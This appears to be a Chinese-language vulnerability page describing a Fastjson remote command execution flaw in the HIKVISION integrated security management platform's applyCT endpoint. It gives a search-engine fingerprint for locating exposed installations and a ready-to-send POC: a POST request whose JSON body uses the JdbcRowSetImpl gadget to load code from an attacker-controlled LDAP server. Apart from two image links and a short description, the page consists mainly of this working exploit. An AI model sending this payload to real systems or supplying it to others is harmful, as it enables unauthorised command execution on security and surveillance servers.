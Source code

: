 # HIKVISION 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

## 漏洞描述

HIKVISION 综合安防管理平台 applyCT 存在低版本Fastjson远程命令执行漏洞，攻击者通过漏洞可以执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>HIKVISION 综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647517887798-06e24b68-d89a-4223-aee3-50ca22081807.png)

验证POC

```javascript
POST /bic/ssoService/v1/applyCT 
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661183408780-ae3f95b1-7c3b-42d9-b03a-f2f314309543.png)